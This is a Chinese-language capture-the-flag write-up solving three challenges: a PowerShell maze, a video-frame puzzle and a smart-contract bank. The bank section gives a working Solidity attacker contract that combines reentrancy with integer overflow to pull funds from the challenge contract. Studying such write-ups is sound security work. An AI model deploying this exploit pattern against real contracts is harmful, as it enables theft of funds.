 # Akiz

## PowerShell 迷宫

官方题解实在是太慢啦！竟然要将近4分钟才能得到结果什么的（

下面这个方法只要数十秒就可以找到啦w

```powershell
function recursive($path, $max)
{
    foreach ($item in @(Get-ChildItem $path))
    {
        $x = $item.X
    	$y = $item.Y
        $flag = $item.Flag
        if ($flag -ne $null) { 
            Write-Host ""
            Write-Host "$flag"
            $end = Get-Date
            Write-Host ('Total Runtime: ' + ($end - $start).TotalSeconds)
            exit 
        }
    	if ($x -eq $max) { return }
    	if ($y -eq $max) { return }
    	if ($array[$x, $y] -ne 1) { 
            $array[$x, $y] = 1 
            Write-Host -NoNewline "."
        	recursive $item.PSPath $max 
        }
    }
}

$start = Get-Date
$array=New-Object 'int[,]' 70, 70
recursive (Resolve-Path Down).ProviderPath 70

```
输出（比隔壁官方writeup快多了www）
```
............................
flag{...
Total Runtime: 12.7551591
```
## 三教奇妙夜

用cv2分析视频，选取特定点为黑色的所有帧相加，肉眼/Tesseract识别一下即可。

```python
import cv2

def main():

    videoCapture = cv2.VideoCapture()
    videoCapture.open('output.mp4')
    frames = videoCapture.get(cv2.CAP_PROP_FRAME_COUNT)
    final = numpy.ndarray(shape=(240, 320, 3))
    
    for i in range(int(frames)):
        ret, frame = videoCapture.read()
        e = frame[200,300,0]
        if i % 10000 == 0:
            print(i)
        if e == 0:
            print(e)
            cv2.imwrite("Frame.(%d).jpg" % i, frame)
            final += frame
            cv2.imwrite("final.jpg", final)

main()


```

## 韭菜银行

### flag1

直接打开合约地址即可知道secret，再调用一下get_flag_1即可。

### flag2

死活找不到flag2所需要的user_id到底在哪里23333，最后的最后才看到公告“不要忽略打开/下载题目按钮”...

重入攻击+整数溢出即可。（甚至还能把合约里的keth提空

```solidity
pragma solidity ^0.4.26;

contract JCBank {
    mapping (address => uint) public balance;
    mapping (uint => bool) public got_flag;
    uint128 secret;
    function deposit() public payable;
    function withdraw(uint amount) public;
    function get_flag_1(uint128 guess) public view returns(string);
    function get_flag_2(uint user_id) public;
}

contract Attacker {
    
    JCBank target;
    address self;
    uint price;
    address owner = 0xE575c9abD35Fa94F1949f7d559056bB66FddEB51;

    constructor () public payable{ target = JCBank(owner);  price = address(this).balance; self = msg.sender; }
    function deposit() public payable { target.deposit.value(price)(); }
    function withdraw() public payable { target.withdraw(price); target.withdraw(price); }
    function finally() public payable { self.transfer(address(this).balance); selfdestruct(msg.sender); }
    function flag(uint userid) public { target.get_flag_2(userid); }
    function () public payable { 
        if (msg.sender != owner) { return; } else { 
            if (price < address(owner).balance) { target.withdraw(price); 
            } else { target.withdraw(address(owner).balance);  return; }
        } 
    }
}

```

![L513SMUbaOg8uxf.png](https://i.loli.net/2019/10/22/d1pXV4QOg2EeLko.png)
